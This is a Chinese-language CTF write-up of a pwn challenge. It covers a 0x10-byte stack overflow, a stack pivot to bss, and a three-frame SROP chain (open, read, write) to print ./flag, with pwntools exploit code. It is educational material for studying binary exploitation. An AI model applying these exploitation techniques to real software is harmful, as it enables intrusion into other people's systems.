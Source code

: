 ### 分析代码

```plain
syscall(0LL, 0LL, &unk_404060, 4096LL);
  syscall(0LL, 0LL, v1, 58LL);
```

可以看到有两段输入，一段在bss段上，大小为0x1000，另一段在栈上，溢出了0x10字节

输入长度不够如何构造srop？

此时我们便可以用这个0x10字节溢出来实现栈迁移，将栈迁移到bss段上后第一段读入就可以实现一个非常大的数据读入，足够进行三段SROP链的构造了

程序中也给了rax的赋值

```plain
.text:000000000040118F 55                            push    rbp
.text:0000000000401190 48 89 E5                      mov     rbp, rsp
.text:0000000000401193 48 C7 C0 0F 00 00 00          mov     rax, 0Fh
.text:000000000040119A C3                            retn
```

### exp解析

```plain
io.sendafter('easyhack\n','0')

io.sendafter('SUID?\n',b'\x00'*(0x2a)+p64(0x404050+0x30)+p64(0x401417))
io.send(b'\x00'*(0x2a)+p64(0x404050+0x30+0x2a)+p64(0x401417))

io.send(p64(0x404050+0x30+0x2a+0x10)+p64(0x40136e))
```

首先是一个经典0x10字节的栈迁移过程，不了解的师傅可以看看这篇文章：[栈迁移详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12189)

这里不多赘述

接下来就是SROP链的构造：

```plain
payload = b'./flag\x00\x00'.ljust(0x30, b'\x00')
frame = SigreturnFrame()
frame.rdi = constants.SYS_open
frame.rsi = 0x404060
frame.rdx = 0
frame.rcx = 0
frame.rip = syscall
frame.rsp = 0x404198
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 3
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x4042a0
payload+=p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_write
frame.rsi = 1
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0
payload += p64(rax_15)+p64(syscall2)+bytes(frame)
```
